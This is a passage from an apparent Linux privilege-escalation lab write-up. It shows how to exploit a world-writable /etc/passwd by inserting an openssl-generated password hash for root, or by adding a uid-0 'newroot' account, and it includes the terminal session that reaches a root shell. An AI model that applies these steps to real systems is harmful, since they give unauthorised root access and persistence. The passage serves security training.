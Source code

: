 The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

Note that the /etc/passwd file is world-writable:

ls -l /etc/passwd

Generate a new password hash with a password of your choice:

openssl passwd newpasswordhere

Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

su root
Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

Now switch to the newroot user, using the new password:

su newroot

Remember to exit out of the root shell before continuing!

```

user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssh passwd newpasswordhere
-bash: openssh: command not found
user@debian:~$ openssl passwd newpasswordhere
Warning: truncating password to 8 characters
LTtIm7YDnG7cA
user@debian:~$ nano /etc/passwd
user@debian:~$ su newroot
Password: 
root@debian:/home/user# 

```


Run the "id" command as the newroot user. What is the result?
uid=0(root) gid=0(root) groups=0(root)

```
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# 

```



===

List the programs which sudo allows your user to run:
